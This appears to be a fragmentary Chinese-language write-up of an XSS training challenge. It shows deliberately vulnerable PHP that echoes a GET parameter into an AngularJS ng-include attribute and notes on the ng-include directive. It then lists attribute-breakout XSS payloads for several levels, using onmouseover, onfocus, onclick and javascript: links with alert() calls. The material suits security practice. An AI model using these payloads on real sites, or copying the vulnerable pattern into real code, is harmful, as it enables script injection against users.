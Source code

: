 代码摘要

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["src"];
echo '<body><span class="ng-include:'.htmlspecialchars($str).'"></span></body>';
?>
```

漏洞点有ng-include

**定义和用法**

**ng-include** 指令用于包含外部的 HTML 文件。

包含的内容将作为指定元素的子节点。

`ng-include` 属性的值可以是一个表达式，返回一个文件名。

默认情况下，包含的文件需要包含在同一个域名下。

---

**语法**

<*element* ng-include="*filename*" onload="*expression*" autoscroll="*expression*" ></*element*>

ng-include 指令作为元素使用:

<ng-include src="*filename*" onload="*expression*" autoscroll="*expression*" ></ng-include>

所有的 HTML 元素都支持该指令。

# 标签原始残缺

level4:

```php
" onmouseover='alert(1)''
" onfocus=javascript:alert('xss')>//
```

level5:

```php
"> <a href="javascript:alert(1)">
```

level10:

```php
?t_sort=" type="text" onclick="alert('redqx')"
```